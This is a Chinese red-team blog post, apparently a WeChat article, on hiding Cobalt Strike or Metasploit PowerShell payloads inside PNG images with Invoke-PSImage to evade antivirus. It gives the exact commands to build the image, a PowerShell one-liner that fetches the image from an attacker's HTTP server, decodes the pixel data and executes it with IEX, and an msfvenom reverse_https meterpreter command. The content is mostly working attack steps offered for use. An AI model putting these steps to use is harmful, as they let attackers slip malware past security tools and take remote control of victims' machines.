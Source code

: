 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/SwzgK6P-ActQ8n0NqOmDlg)

渗透攻击红队

一个专注于红队攻击的公众号

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDoZibS8XU01CtEtSbwM3VGr3qskOmA1VkccY0mwKTCq6u2ia1xYRwBn3A/640?wx_fmt=jpeg)

  

  

大家好，这里是 **渗透攻击红队** 的第 **52** 篇文章，本公众号会记录一些红队攻击的笔记（由浅到深），不定时更新

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC4T65TNkYZsPg2BJ2VwibZicuBhV9DGqxlsxwG0n2ibhLuBsiamU7S0SqvAp6p33ucxPkuiaDiaKD6ibJGaQ/640?wx_fmt=gif)

图片免杀

一般来说一些 AV 对于图片并未做检测处理，其原理可以仅使用有效载荷数据来创建新图像，也可以将有效载荷嵌入到现有图像的最低有效字节中，以便看起来像实际的图片。图像保存为 PNG，并且可以无损压缩，而不会影响执行有效载荷的能力，因为数据本身以颜色存储。创建新图像时，通常会对常规 PowerShell 脚本进行显着压缩，通常会生成 png，其文件大小约为原始脚本的 50％，非常方便。

**PS：我发一些杂七杂八的广告别当真，就当没看到就好，都是为了生活。**

**CobaltStrike 免杀**

**CS 免杀演示**

首先生成一个 ps1 的文件：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIhbvoayMPeyFquGbIbS2AvBOEibXvlU42SGklWE6sHzHicZQiaJ5WLZ6UdCgu2Iict9SFKQUnhMDxG7g/640?wx_fmt=png)

然后把生成的文件放到和 Invoke-PSImage.ps1 文件同一目录：  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIhbvoayMPeyFquGbIbS2AvXyBib3hBzNYIBnsoAsuMiag6PAfPEeBBIibckIfT1R7AzicceN3Y213Vww/640?wx_fmt=png)

然后再准备一张普通图片用于生成一个带有 Payload 的图片：  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIhbvoayMPeyFquGbIbS2AvGvUKh7ib11mkMlkENM0icibNia4GmQsfeAPRKEZR1mhnSEfIxkDWLtedsg/640?wx_fmt=png)

之后使用命令生成一个带有 shellcode 的图片：  

```
# 1、设置执行策略
Set-ExecutionPolicy Unrestricted -Scope CurrentUser
# 2、导入 ps1 文件
Import-Module .\Invoke-PSimage.ps1
# 3、生成 shellcode 的图片
Invoke-PSImage -Script .\payload.ps1 -Image .\saul.jpg -Out .\saul.png -Web
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIhbvoayMPeyFquGbIbS2AvOtJuPZiamm11U9tteyt1iar6iaXjlqeuN7LZfWrT74yHgyvGic8nSH437w/640?wx_fmt=png)

之后就会得到这么一串 Powershell 代码：

```
sal a New-Object;Add-Type -A System.Drawing;$g=a System.Drawing.Bitmap((a Net.WebClient).OpenRead("http://example.com/saul.png"));$o=a Byte[] 3584;(0..13)|%{foreach($x in(0..255)){$p=$g.GetPixel($x,$_);$o[$_*256+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G -band 15))}};IEX([System.Text.Encoding]::ASCII.GetString($o[0..3550]))
```

当前目录还会多出了一个 saul.png 的图片：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIhbvoayMPeyFquGbIbS2Av0MDd9uCTKIPEdab3aWIqAoBiaFtP13K8w7U09CcHTXibnKHSbs81AnGg/640?wx_fmt=png)

我们把里面的 http://example.com/saul.png 修改为我们自己的 http 服务，我首先再服务器上开启了一个 http 服务，然后把生成的 saul.png 放到里面用于远程加载：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIhbvoayMPeyFquGbIbS2Av3vgAGLxFGylGWAF5qia7rLV1sWuYRaHGl446zHJKFLAyyb40wnapStw/640?wx_fmt=png)

这个时候我们修改 powershell 代码为我们自己的 http ：

```
sal a New-Object;Add-Type -A System.Drawing;$g=a System.Drawing.Bitmap((a Net.WebClient).OpenRead("http://192.168.2.14/saul.png"));$o=a Byte[] 3584;(0..13)|%{foreach($x in(0..255)){$p=$g.GetPixel($x,$_);$o[$_*256+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G -band 15))}};IEX([System.Text.Encoding]::ASCII.GetString($o[0..3550]))
```

然后运行上线的 powershell 代码上线：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIhbvoayMPeyFquGbIbS2AvGQG3TPOLUYNzyq177JHX1Oj7ho0icDiaEDAd82JbfTK6ox59MUBgbyTw/640?wx_fmt=png)

**Metasploit**

```
1、msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.253.8 LPORT=5555 -f psh-reflection > msf-dayu.ps1

2、Set-ExecutionPolicy Unrestricted -Scope CurrentUser

3、Import-Module .\Invoke-PSimage.ps1

4、Invoke-PSImage -Script .\cs-dayu.ps1 -Image .\dayu.jpg -Out .\cs-dayu.png -Web
```

* * *

参考文章：  

https://github.com/dayuxiyou/Invoke-PSImage

https://www.freebuf.com/articles/web/262978.html

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

渗透攻击红队

一个专注于渗透红队攻击的公众号

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDdjBqfzUWVgkVA7dFfxUAATDhZQicc1ibtgzSVq7sln6r9kEtTTicvZmcw/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDY9HXLCT5WoDFzKP1Dw8FZyt3ecOVF0zSDogBTzgN2wicJlRDygN7bfQ/640?wx_fmt=png)

点分享

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDRwPQ2H3KRtgzicHGD2bGf1Dtqr86B5mspl4gARTicQUaVr6N0rY1GgKQ/640?wx_fmt=png)

点点赞

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDgRo5uRP3s5pLrlJym85cYvUZRJDlqbTXHYVGXEZqD67ia9jNmwbNgxg/640?wx_fmt=png)

点在看